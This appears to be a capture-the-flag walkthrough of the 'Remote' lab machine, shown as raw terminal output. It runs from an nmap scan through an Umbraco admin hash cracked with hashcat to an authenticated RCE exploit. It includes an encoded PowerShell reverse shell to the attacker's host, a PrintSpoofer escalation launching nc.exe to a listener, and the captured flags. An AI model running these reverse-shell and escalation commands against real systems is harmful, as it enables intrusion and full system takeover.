

# Remote

└──╼ [★]$ sudo nmap -sCV 10.129.16.70
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-18 20:00 EDT
Nmap scan report for 10.129.16.70
Host is up (0.0086s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|*ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|*  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|*http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|*  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
|*clock-skew: 1h00m00s
| smb2-time:
|   date: 2026-06-19T01:01:22
|*  start_date: N/A

<machineKey validationKey="2D56EBC66956E070A0B01081434DA66BEDF1C7241EC4BEEC7FAB3E6A0ABDE4F5" decryptionKey="5679E8E158BC850DE4A7172AA5F651D357EB4A5343A5DD03F9F9B022B5EEAB69" validation="HMACSHA256" decryption="AES" /></system.web>

strings Umbraco.sdf | grep -iA2 admin
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749

User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/password/changepassword change
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "smith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/saveupdating SessionTimeout, SecurityStamp, CreateDate, UpdateDate, Id, HasIdentity
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "smith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "smith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/saveupdating Key, IsApproved, Groups, UpdateDate; groups assigned: writer
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "smith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "smith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/password/changepassword change
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "smith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/saveupdating Key, Groups, UpdateDate; groups assigned: writer
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "ssmith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/saveupdating Name, Key, Groups, UpdateDate; groups assigned: writer
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "ssmith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.1User "ssmith" [smith@htb.local](mailto:smith@htb.local)umbraco/user/sign-in/loginlogin success

User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/saveupdating Username, Email, Key, Groups, UpdateDate; groups assigned: writer
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.137User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/saveupdating FailedPasswordAttempts, UpdateDate
User "SYSTEM" 192.168.195.1User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/saveupdating FailedPasswordAttempts, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/password/changepassword change
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/saveupdating Key, Groups, UpdateDate; groups assigned: writer
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/saveupdating FailedPasswordAttempts, UpdateDate
User "SYSTEM" 192.168.195.1User "ssmith" [ssmith@htb.local](mailto:ssmith@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate

User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating FailedPasswordAttempts, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1umbraco/user/sign-in/failedlogin failed
z w0t@qPn`kph
_ ^p\

User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating FailedPasswordAttempts, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/password/changepassword change
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/password/changepassword change
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
toTranslate
umbracoUser

adminAdministratorsCADMOSKTPIURZ:5F7
icon-medal
writerWritersCAH:Ficon-edit

User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating TourData, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.137User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/logoutlogout success
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastLoginDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/sign-in/loginlogin success
User "admin" [admin@htb.local](mailto:admin@htb.local)192.168.195.1User "admin" [admin@htb.local](mailto:admin@htb.local)umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
umbracoAudit
eventDetails

Username:  admin
Email:     admin@htb.local
Hash:      b8be16afba8c314ad33d812f22a04991b90e2aaa
Algorithm: SHA1

echo "b8be16afba8c314ad33d812f22a04991b90e2aaa" > admin.hash

hashcat -m 100 admin.hash /usr/share/wordlists/rockyou.txt.gz

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese

admin@htb.local:baconandcheese

Umbraco version 7.12.4

git clone [https://github.com/noraj/Umbraco-RCE.git](https://github.com/noraj/Umbraco-RCE.git)
Cloning into 'Umbraco-RCE'...
remote: Enumerating objects: 41, done.
remote: Counting objects: 100% (41/41), done.
remote: Compressing objects: 100% (40/40), done.
remote: Total 41 (delta 15), reused 1 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (41/41), 11.70 KiB | 11.71 MiB/s, done.
Resolving deltas: 100% (15/15), done.
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-xqyyziskt6]─[~]
└──╼ [★]$ cd Umbraco-RCE/

python3 [exploit.py](http://exploit.py/) -u admin@htb.local -p baconandcheese -i '[http://10.129.16.70](http://10.129.16.70/)' -c whoami
iis apppool\defaultapppool

┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-xqyyziskt6]─[~/Umbraco-RCE]
└──╼ [★]$ python3 [exploit.py](http://exploit.py/) -u admin@htb.local -p baconandcheese -i '[http://10.129.16.70](http://10.129.16.70/)' -c powershell.exe -a "-e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA1AC4AMgAwADYAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.16.70 49697

PS C:\windows\system32\inetsrv>
PS C:\windows\system32\inetsrv> whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> host

Name             : ConsoleHost
Version          : 5.1.17763.1
InstanceId       : 472bf4e5-8c9e-4938-b550-ed05459075cc
UI               : System.Management.Automation.Internal.Host.InternalHostUserInterface
CurrentCulture   : en-US
CurrentUICulture : en-US
PrivateData      : Microsoft.PowerShell.ConsoleHost+ConsoleColorProxy
DebuggerEnabled  : True
IsRunspacePushed : False
Runspace         : System.Management.Automation.Runspaces.LocalRunspace

PS C:\windows\system32\inetsrv> hostname
remote

PS C:\Users> whoami /priv

## PRIVILEGES INFORMATION

Privilege Name                Description                               State

============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled

SeImpersonatePrivilege        

PS C:\temp> ./PrintSpoofer64.exe -c "C:\temp\nc.exe 10.10.15.206 1337 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK

nc -lvnp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.16.70 49703
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

PS C:\Users\Administrator\Desktop> cat root.txt
cat root.txt
1f5af6ab8e630e25fc42eadd692feb58

PS C:\Users\Public\Desktop> cat user.txt
cat user.txt
f0a69701c779462f88456cba7dda6a6d